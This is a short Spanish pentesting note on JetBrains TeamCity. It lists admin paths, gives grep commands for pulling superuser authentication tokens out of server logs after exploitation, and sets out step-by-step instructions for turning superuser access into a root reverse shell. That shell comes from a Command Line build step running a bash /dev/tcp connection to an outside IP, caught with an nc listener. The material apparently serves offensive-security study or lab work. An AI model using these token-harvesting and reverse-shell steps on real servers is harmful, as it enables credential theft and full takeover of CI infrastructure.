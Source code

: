 [[Apuntes]]
## ¿Qué es y cómo funciona?

TeamCity es un servidor de gestión de compilación e integración continua de JetBrains. Se lanzó por primera vez el 2 de octubre de 2006 y es un software comercial con licencia patentada: hay disponibles una licencia freemium para hasta 100 configuraciones de compilación y tres licencias gratuitas de Build Agent.

## Rutas importantes

```
/admin
/admin/admin.html
```

## Encontrar tokens post-explotación

Este cms funciona con usuario y contraseña pero también con tokens, hay muchas veces los cuales podemos encontrarlos en los logs.

Si es el caso que tenemos acceso a los archivos hay varias maneras de encontrarlos


```
grep -rni 'authentication token' TeamCity/logs
grep -rni 'Super user authentication token' TeamCity/logs
grep -rni 'token' TeamCity/logs
O dentro del propio /logs hacer cat * | grep token
```

## Reverse shell

Si obtenemos un login como super user podemos hacer el siguiente proceso para tener una shell como root:

1. Crear un nuevo proyecto en el panel

2. Le damos a **Manual**

3. Una vez creado entramos dentro y le damos a **Build Configuration**

4. Cuando hayamos creado el build configuration salir del mismo e ir a la raiz del proyecto y entonces después darle a **Build Steps a la izquierda del panel**.

5. Add build steps

    1. Runner type --> Command Line

    2. Custom script añadimos una reverse shell --> Ejemplo `bash -c "bash -i >& /dev/tcp/10.18.9.85/4443 0>&1`


6. Nos ponemos en escucha por el puerto 4443 --> `nc -lvnp 4443`

7. Y le damos arriba a la derecha a **Run.**